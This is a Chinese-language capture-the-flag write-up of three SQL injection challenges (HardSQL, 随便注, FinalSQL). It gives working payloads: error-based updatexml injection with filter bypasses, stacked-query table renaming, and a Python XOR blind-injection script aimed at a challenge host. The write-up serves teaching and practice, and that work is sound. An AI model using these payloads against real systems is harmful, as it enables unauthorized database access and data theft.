 [极客大挑战 2019]HardSQL

![image-20210812161326718](https://www.hualigs.cn/image/6115333b46cf5.jpg)

登录界面尝试注入，发现是单引号字符型注入，且对union和空格进行过滤，不能用联合注入，但是有错误信息回显，说明可以使用报错注入。

```
username=admin'or(updatexml(1,concat('~',(select(database())),'~'),1))#&password=123
```

利用updatexml函数的报错原理进行注入在路径处利用concat函数拼接~和我们的注入语句

<img src="https://www.hualigs.cn/image/61153338b3112.jpg" alt="image-20210812161844858" style="zoom:80%;" />

发现xpath错误并执行sql语句将错误返回。

等号也被过滤，用like代替等号。

```
username=admin'or(updatexml(1,concat('~',(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),'~'),1))#&password=123
```

![image-20210812162950037](https://www.hualigs.cn/image/6115333609ca8.jpg)

爆字段

```
username=admin'or(updatexml(1,concat('~',(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),'~'),1))#&password=123
```

![image-20210812163124619](https://www.hualigs.cn/image/61153336b0409.jpg)

爆数据

```
username=admin'or(updatexml(1,concat('~',(select(password)from(H4rDsq1)),'~'),1))#&password=123
```

![image-20210812163343223](https://www.hualigs.cn/image/61153336444da.jpg)

这里flag不完整，因为updatexml能查询字符串的最大长度为32，所以这里要用right函数进行读取

```
username=admin'or(updatexml(1,concat('~',(select(right(password,25)from(H4rDsq1)),'~'),1))#&password=123
```

![image-20210812163800151](https://www.hualigs.cn/image/611533367b0ae.jpg)



[强网杯 2019\]随便注

判断完注入类型后尝试联合注入，发现select被过滤，且正则不区分大小写过滤。

![image-20210812181819109](C:\Users\ysvjf\AppData\Roaming\Typora\typora-user-images\image-20210812181819109.png)

那么就用堆叠注入，使用show就可以不用select了。

<img src="https://www.hualigs.cn/image/61153336dd856.jpg" alt="image-20210812182108228" style="zoom: 50%;" />

接下去获取表信息和字段信息

```
1';show tables;#
```

<img src="https://www.hualigs.cn/image/611533301d2fb.jpg" alt="image-20210812182108228" style="zoom: 50%;" />

那一串数字十分可疑大概率flag就在里面，查看一下

```
1';show columns from `1919810931114514`;#
```

这里的表名要加上反单引号，是数据库的引用符。

![image-20210812182714535](https://www.hualigs.cn/image/6115332dbb0d5.jpg)

发现flag，但是没办法直接读取。再读取words，发现里面有个id字段，猜测数据库语句为

```
select * from words where id = '';
```

结合1'or 1=1#可以读取全部数据可以利用改名的方法把修改1919810931114514为words，flag修改为id，就可以把flag读取了。

最终payload：

```
1';
alter table words rename to words1;
alter table `1919810931114514` rename to words;
alter table words change flag(被修改的字段) id(修改成的字段名) varchar(50);
#
```

<img src="https://www.hualigs.cn/image/61153330235ae.jpg" alt="image-20210812183841779" style="zoom:67%;" />

### 

[极客大挑战 2019]FinalSQL

五个选项在点击后都会在url处出现?id。

且union，and，or都被过滤

测试发现?id=1^1会报错

![image-20210812195625232](https://www.hualigs.cn/image/6115333810dca.jpg)

但是?id=1^0会返回?id=1的页面，这就是前面说的原理，当1^0时是等于1的所以返回?id=1的页面。

![image-20210812195820578](https://www.hualigs.cn/image/61153335e585c.jpg)

根据原理写出payload

据此可以写出基于异或的布尔盲注脚本

```python
import requests
flag = ''
for i in range(1,300):
    low = 32
    high = 128
    mid = (low+high)//2
    while(low<high):
        #payload = 'http://f208e4eb-e9b2-4542-87f2-9348eb856e64.node4.buuoj.cn:81/search.php?id=1^(ascii(substr(database(),%d,1))>%d)' %(i,mid)

        r = requests.get(url=payload)

        if 'ERROR' in r.text:
            low = mid+1
        else:
            high = mid
        mid = (low+high)//2
    if(mid<33 or mid>127):
        break
    flag = flag+chr(mid)
    print(flag)

```



